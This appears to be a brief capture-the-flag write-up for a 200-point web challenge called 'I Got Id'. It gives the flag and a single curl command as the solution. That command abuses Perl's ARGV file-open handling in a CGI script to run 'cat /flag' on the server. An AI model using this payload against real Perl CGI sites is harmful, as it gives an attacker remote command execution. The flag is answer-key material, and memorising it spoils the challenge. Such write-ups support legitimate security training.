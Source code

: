 # I Got Id
## Author

## Points
200
## Category
Web
## Description
Wtf... I literally just setup this website and it's already popped...
## Flag
`FLAG{p3rl_6_iz_EVEN_BETTER!!1}`
## Solution
`echo "asdf" | curl -F "file=ARGV" -F "file=@-" "http://localhost:8081/cgi-bin/file.pl?cat%20%2fflag%20|"`